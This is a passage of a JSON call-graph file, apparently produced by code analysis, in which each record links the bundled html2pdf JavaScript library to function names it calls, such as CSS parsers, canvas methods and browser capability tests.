{"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "loadImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBackgroundRepeat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBackgroundSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBackgoundPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBackgroundImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendResult"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendResult"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendResult"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendResult"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBorderStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBorderStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sliceIterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sliceIterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseBorderRadius"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getPropertyValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_slicedToArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseDisplayValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setDisplayBit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseDisplayValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseDisplay"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseCSSFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFontWeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFont"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFontWeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseLetterSpacing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseLineBreak"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseListStyleType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseListStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getPropertyValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseListStyleType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseListStylePosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseListStylePosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseMargin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseOverflow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseOverflowWrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parsePosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseTextShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseTextTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseTransformMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseTransformOrigin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseTransformOrigin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseTransformMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseVisibility"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseWordBreak"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseZIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_createClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createForeignObjectSVG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "loadSerializedSVG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createForeignObjectSVG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElementNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElementNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setAttributeNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setAttributeNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setAttributeNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setAttributeNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setAttributeNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setAttributeNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setAttributeNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "loadSerializedSVG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "encodeURIComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "serializeToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "testRangeBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "selectNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "testBase64"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "onload"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "onload"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "testCORS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "testResponseType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "testSVG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isGreenPixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "testForeignObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isGreenPixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 